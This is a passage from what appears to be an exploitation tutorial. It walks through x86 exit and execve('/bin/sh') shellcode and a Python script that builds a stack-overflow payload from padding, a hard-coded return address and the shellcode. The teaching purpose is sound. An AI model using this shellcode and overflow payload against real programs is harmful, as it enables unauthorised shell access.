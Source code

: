 Okay, I know I put comments, but just to make it clearer:
- `\x31\xc0`: XORs the `eax` register with itself, effectively setting `eax` to 0.
- `\x40`: Increments `eax` by 1, so `eax` becomes 1.
- `\x89\xc3` passes exit code (`ebx=1`) to the `exit` syscall 
- `\xcd\x80`: Triggers an interrupt `0x80`, which is the Linux syscall interrupt. The value in `eax` determines which syscall to invoke. In this case, `eax` is set to 1 (the `exit` syscall number), so it invokes the `exit` syscall.

## Why stop there?
I mean we’re already here, lets run bash. We can do this with the `execve` command, with the input being `"/bin/sh"`. However, I really don’t wanna reinvent the wheel and make my own shell code from with assembly, so I’m gonna stand on the [*shoulder of giants*](https://shell-storm.org/shellcode/files/shellcode-811.html) (most especially, the giant named **Jean Pascal Pereira**. Whoever you are, thanks!):

This assembly code is from the shell-storm link I carefully placed above:
```asm
31 c0                 xor    %eax,%eax          ; Clear eax register (set it to 0)
50                    push   %eax               ; Push null byte onto the stack (used as a terminator)
68 2f 2f 73 68        push   $0x68732f2f        ; Push the string "//sh" onto the stack in reverse order
68 2f 62 69 6e        push   $0x6e69622f        ; Push the string "nib/" onto the stack in reverse order
89 e3                 mov    %esp,%ebx          ; Move the address of the top of the stack (which now contains the "/bin/sh" string) into ebx
89 c1                 mov    %eax,%ecx          ; Move 0 (null) into ecx (will be used as the second argument to execve, argv)
89 c2                 mov    %eax,%edx          ; Move 0 (null) into edx (will be used as the third argument to execve, envp)
b0 0b                 mov    $0xb,%al           ; Move the syscall number for execve (11) into al
cd 80                 int    $0x80              ; Invoke the syscall (execve("/bin/sh", 0, 0))
31 c0                 xor    %eax,%eax          ; Clear eax register (set it to 0)
40                    inc    %eax               ; Increment eax (set it to 1, which is the syscall exit number)
cd 80                 int    $0x80              ; Invoke the syscall (exit)
```

As usual, we analyze the assembly code to **not become script kiddies**. Now its just a matter of inserting the machine code in our python script, (we’re keeping the `exit_one` code though):

``` python
import struct

# we want to write past the sfp and change rip
padding = b"A" * 12
ret_address = 0xffffcdf8
redirect = struct.pack("<I", ret_address)
exit_one = b"\x31\xc0\x40\x89\xc3\xcd\x80" 
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = padding + redirect + shellcode

with open("payload", "wb") as f:
	f.write(payload)
```
